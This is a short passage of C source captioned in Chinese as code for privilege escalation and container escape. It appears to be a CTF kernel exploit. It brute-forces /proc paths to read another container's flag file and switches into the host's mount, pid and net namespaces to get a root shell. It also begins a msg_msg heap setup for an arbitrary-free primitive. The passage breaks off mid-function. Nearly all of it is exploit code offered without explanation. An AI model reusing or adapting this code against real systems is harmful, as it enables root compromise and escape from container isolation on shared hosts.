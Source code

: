 以下代码能够提权和容器逃逸：

```c
void dump_flag()
{
    char buf[200] = {0};
    for (int i = 0; i < 4194304; i++) 
    {
        // bruteforce root namespace pid equivalent of the other container's sleep process
        snprintf(buf, sizeof(buf), "/proc/%d/root/flag/flag", i);
        int fd = open(buf, O_RDONLY);
        if (fd < 0) 
        {
            continue;
        }
        puts("🎲🎲🎲🎲🎲🎲🎲🎲🎲🎲");
        read(fd, buf, 100);
        write(1, buf, 100);
        puts("🎲🎲🎲🎲🎲🎲🎲🎲🎲🎲");
        close(fd);
    }
    return;
}

__attribute__((naked)) win()
{
    // thanks movaps sooooooo much
    asm volatile(
        "mov rbp, rsp;"
        "and rsp, -0xf;"
        "call dump_flag;"
        "mov rsp, rbp;"
        "ret;");
}

void pwned()
{
    write(1, "ROOOOOOOOOOOT\n", 14);
    setns(open("/proc/1/ns/mnt", O_RDONLY), 0);
    setns(open("/proc/1/ns/pid", O_RDONLY), 0);
    setns(open("/proc/1/ns/net", O_RDONLY), 0);
    win();
    char *args[] = {"/bin/sh", NULL};
    execve("/bin/sh", args, NULL);
    _exit(0);
}

void do_win(uint64_t kmalloc_512, uint64_t kmalloc_1024) 
{
    int size = 0x1000;
    int target = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
    char buffer[0x2000] = {0}, recieved[0x2000] = {0};
    char pat[0x40] = {0};
    msg* message = (msg*)buffer;
    memset(buffer, 0x44, sizeof(buffer));
    int ready = 0;
    int ignition_target = -1;

    // doesn't matter as long as valid pointers
    uint64_t next_target = kmalloc_1024 + 0x440;
    uint64_t prev_target = kmalloc_512 + 0x440;

    // set up arb free primitive, avoid tripping hardened usercopy when re-alloc with msg_msg
    uint64_t free_target = kmalloc_1024 - 0x20;
```
